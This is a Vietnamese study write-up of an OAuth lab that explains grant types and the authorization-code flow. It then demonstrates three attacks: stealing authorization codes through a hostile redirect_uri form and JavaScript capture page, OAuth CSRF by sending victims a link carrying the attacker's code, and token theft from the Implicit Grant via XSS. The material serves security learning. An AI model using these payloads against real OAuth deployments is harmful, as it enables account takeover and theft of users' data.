# **OAuth Vulnerabilities**
## **1. Key concepts**
- Resource Owner: người hoặc hệ thống kiểm soát dữ liệu nhất định và có thể ủy quyền cho ứng dụng thay mặt họ truy cập dữ liệu đó. Khái niệm này là cơ bản vì nó xoay quanh sự đồng ý và kiểm soát của người dùng
- Client: một ứng dụng dành cho thiết bị di động hoặc một ứng dụng web phía máy chủ. Nó đóng vai trò trung gian, yêu cầu quyền truy cập vào tài nguyên và thực hiện các hành động được chủ sở hữu tài nguyên cho phép
- Authorization Server: có chức năng cấp quyền cho người dùng trong hệ thống, có vai trò quan trọng trong OAuth
- Resource Server: cho phép và trả về những dữ liệu cho được bảo vệ, nó chắc chắn rằng người dùng đã xác thực và có quyền xem tài nguyên đó
- Authorization Grant: người dùng thực hiện xác thực bằng tài khoản mật khẩu, sau đó hệ thống sẽ cấp quyền cho người dùng; có 4 loại cấp chính `Authorization Code`, `Implicit`, `Resource Owner Password Credentials`, và `Client Credentials`
- Access Token: token dùng cho những lần sau khi xác thực, giúp không phải xác thực lại nhiều lần
- Refresh Token: dùng để yêu cầu access token mới, thường có live time dài hơn access token
- Redirect URI: chuyển hướng về trang web ban đầu sau khi xác thực xong

## **2. OAuth 2.0 grant types**
**Authorization Code Grant**: client đưa user sang Authorization Server đăng nhập, sau đó nhận về một authorization code. Client dùng code đó để đổi lấy access token. Đây là kiểu phổ biến và an toàn hơn



**Implicit Grant**: Authorization Server trả access token trực tiếp qua trình duyệt, không có bước authorization code.

**Resource Owner Password Credentials Grant (ROPC)**: user đưa thẳng username + password cho client, rồi client gửi chúng đến Authorization Server để lấy access token



Client Credentials Grant: không có user. Client dùng chính client_id và client_secret của nó để lấy access token. Thường dùng cho **server-to-server** / **machine-to-machine**



## **3. How OAuth Flow Works**


OAuth 2.0 hoạt động bắt đầu bằng việc người dùng chọn đăng nhập bằng tài khoản của một trang web (*coffee*) trên một trang web khác (*bistro*), người dùng sẽ được bistro thực hiện chuyển hướng sang trang đăng nhập của người dùng bên coffee, sau đó người dùng được yêu cầu nhập thông tin đăng nhập bên coffee; sau đó coffee sẽ gửi về một **code**, từ **code** này bistro sẽ call API và đổi lấy **token** và truy cập vào thông tin người dùng cho phép bên coffee

>Lưu ý: ***code*** khi được trả về không được sử dụng để xác thực mà dùng để đổi lấy **token** - đây mới là thứ giúp ta xác thực

Ta sẽ phân tích sâu hơn về luồng hoạt động này

Đầu tiên ta sẽ yêu cầu đăng nhập coffee từ phía bistro: ` http://bistro.thm:8000/oauthdemo(opens in new tab)`



Khi nhấn `Login with OAuth`, ta được điều hướng sang `http://coffee.thm:8000/accounts/login/o/authorize/?client_id=zlurq9lseKqvHabNqOc2DkjChC000QJPQ0JvNoBt&response_type=code&redirect_uri=http://bistro.thm:8000/oauthdemo/callback`

- `response_type=code`: Điều này cho thấy rằng **CoffeeShopApp** đang đợi được nhận lại code để trả token
- `state`: mã CSRF
- `client_id`: Mã định danh công khai cho ứng dụng khách, xác định duy nhất CoffeeShopApp
- `redirect_uri`: URL sẽ được quay về khi thực hiện xác thực và cấp quyền xong ở phía coffee
- `scope`: phạm vi cho phép truy cập



Sau khi người dùng thực hiện đăng nhập xong, coffee sẽ xác nhận lại rằng người dùng có đồng ý với điều khoản chia sẻ thông tin người dùng sang cho bistro không

Sau khi xác nhận, phía response của request này sẽ có header `Location: https://bistro.thm:8000/callback?code=AuthCode123456&state=xyzSecure123`, đây là code được trả về từ coffee, sau đó được trình duyệt trực tiếp điều hướng đến URL bên trên để thực hiện tiếp tục trao đổi code lấy token

**Token Request**
Sau khi truy điều hướng đến URL trên, bistro thực hiện việc yêu cầu request

```python
token_url = "http://coffee.thm:8000/o/token/"
    client_id = Application.objects.get(name="CoffeeApp").client_id
    client_secret = Application.objects.get(name="CoffeeApp").client_secret
    redirect_uri = request.GET.get("redirect_uri", "http://bistro.thm:8000/oauthdemo/callback")
    
    data = {
        "grant_type": "authorization_code",
        "code": code,
        "redirect_uri": redirect_uri,
        "client_id": client_id,
        "client_secret": client_secret,
    }
    
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'Authorization': f'Basic {base64.b64encode(f"{client_id}:{client_secret}".encode()).decode()}',
    }
    
    response = requests.post(token_url, data=data, headers=headers)
    tokens = response.json()
```

Ở trên có các tham số:
- `grant_type`: yêu cầu kiểu token được cung cáp, ở đây là dạng `authorization_code`
- `code`: đây là phần code ta vừa nhận được từ coffe thông qua URL bên trên
- `redirect_uri`: vẫn là URL được điều hướng sau khi thực hiện nhận token xong, ở đây là `http://bistro.thm:8000/oauthdemo/callback`
- `client_secret` và `client_id`: là những tham số riêng của client 

Phần header

```json
headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'Authorization': f'Basic {base64.b64encode(f"{client_id}:{client_secret}".encode()).decode()}',
    }
```

Được hiểu là giao tiếp server-server nên họ dùng phương thức Basic cho nhanh bằng việc encode chuỗi `client_id:client_secret` sang dạng base64 để xác thực client

**Token Response**
Ngay sau khi bistro thực hiện xác thực xong, nó sẽ nhận được response từ coffee gồm:
- `access_token`: token này dùng để lấy thông tin của người dùng từ coffee
- `token_type`: dùng để chỉ rõ loại mã, thường là `Bearer`
- `expires_in`: thời hạn của token
- `refresh_token` (*optional*): dùng để yêu cầu lại `access_token` khi hết hạn


## **4. Indentifying the Oauth Service**
Mỗi OAuth đều có một cách nhận biết riêng biệt, có thể là những framework có những đặc điểm nhận dạng duy nhất, riêng biệt

- **HTTP Headers and Responses**
- **Source Code Analysis**: nếu có thể đọc được mã nguồn, ta có thể biết được framework được triển khai như `django-oauth-toolkit`, `oauthlib`, `spring-security-oauth`, hoặc `passport` của `Node.js`
- **Authorization and Token Endpoints**: mỗi OAuth có thể có những endpoint để xác thực riêng biệt, ví dụ như `django-oauth-toolkit` sử dụng `/oauth/authorize/` và `/oauth/token/` 
- `Error Messages`: có thể sử dụng mã lỗi để phân biệt được công nghệ được sử dụng dưới web app

## **5. Expoit OAuth - Stealing OAuth Token**
Tham số `redirect_uri` có vai trò khá quan trọng trong một chuỗi phân quyền của OAuth, nó có tác dụng để nhận code và nhận token từ phía Authorization Server\
Giả sử, một tên miền đã đăng kí `client_id` đối với Authorization Server nhưng nó lại bị xâm nhập và do hacker hoàn toàn kiểm soát



Trong ví dụ này ta thấy có 2 domain là `dev.bistro.thm` và `bistro.thm`, trong đó `dev.bistro.thm` đã bị hacker kiểm soát\
Trong chuỗi phân quyền của OAuth có bước sau khi xác thực người dùng, nó sẽ gửi code về với URL trong `redirect_uri` ví dụ `http://bistro.thm:8002/login?code=zVhl5Q26VJV15toYxIbZwndk5Mq7yS`

Lợi dụng điều này, attacker gửi một đường link chứa giao diện tương tự như trang web thật, yêu cầu người dùng đăng nhập bằng tài khoản bên coffee; trang đó có HTML dạng:

```html
 <form action="http://coffee.thm:8000/oauthdemo/oauth_login/" method="get">
    <input type="hidden" name="redirect_uri" value="http://dev.bistro.thm:8002/malicious_redirect.html">
    <input type="submit" value="Hijack OAuth">
</form>
```



Khi người dùng nhấn vào nút để gửi yêu cầu xác thực sang `http://coffee.thm:8000/oauthdemo/oauth_login/`, nó sẽ đồng thời gửi theo parameter là `redirect_uri` với giá trị là `http://dev.bistro.thm:8002/malicious_redirect.html` để nhận chặn code trả về từ coffee

Sau đó nó sẽ thực hiện chặn code bằng JS:

```javascript
<script>
    // Extract the authorization code from the URL
    const urlParams = new URLSearchParams(window.location.search);
    const code = urlParams.get('code');
    document.getElementById('auth_code').innerText = code;
    console.log("Intercepted Authorization Code:", code);
    // code to save the acquired code in database/file etc
</script>
```



Kết quả là code của người dùng đã được attacker kiểm soát, giờ chúng chỉ cần gửi lại code này bằng cách call API (`http://bistro.thm:8000/oauthdemo/callbackforflag/?code=xxxxx`) tới coffee rồi lấy `access_token` là hắn đã hoàn toàn lấy được thông tin của người dùng đã được 



## **6. Expoit OAuth - CSRF in OAuth**


Bài này đề cho ta một trang web **mycontacts.thm** có thể đồng bộ hóa thông tin từ **coffee** 







Sau khi đăng nhập và thực hiện nhấn **Sync Contact**, ta thấy được trên URL có gọi đến coffee bằng 
`http://coffee.thm:8000/o/authorize/?response_type=code&client_id=kwoy5pKgHOn0bJPNYuPdUL2du8aboMX1n9h9C0PN&redirect_uri=http://mycontacts.thm:8080/csrf/callbackcsrf.php`

Ta nhận thấy rằng không có tham số nào để phòng tránh việc giả request như CSRF token\
Vì vậy ý tưởng khai thác sẽ là thực hiện request và lấy code của attacker, sau đó tạo link gắn code đó và gửi cho nạn nhân, khi đó request lấy token được gửi đi sẽ lấy session của nạn nhân lắp vào request rồi thực hiện đồng bộ

Bước đầu  ta sẽ thực hiện lấy được code từ attacker bằng cách capture hoặc viết script để tránh việc code được sử dụng ngay đối với attacker mà không thể sử dụng tiếp đối với nạn nhân



Ta sẽ lấy link `http://bistro.thm:8080/csrf/callbackcsrf.php?code=au6Mer0wWWJ5l7pfDDjzGebLX4QRgP` để gửi đến nạn nhân để nạn nhân đăng nhập vào tài khoản của họ



Sau khi victim đăng nhập xong, ta thấy được hồ sơ của nạn nhân đã bị đồng bộ sang hồ sơ của attaker, từ đó hắn có thể lấy được thông tin của nạn nhân

## **7. Expoit OAuth - Implicit Grant Flow**
Cơ chế **Implicit Grant Flow** là cơ chế xác thực OAuth mà Authorization Server gửi access_token về thẳng cho client lưu trữ mà không qua client giữ, vì vậy access_token này có thể bị đánh cắp bằng những lỗ hổng XSS, .. mà có thể lấy được dữ liệu của người dùng


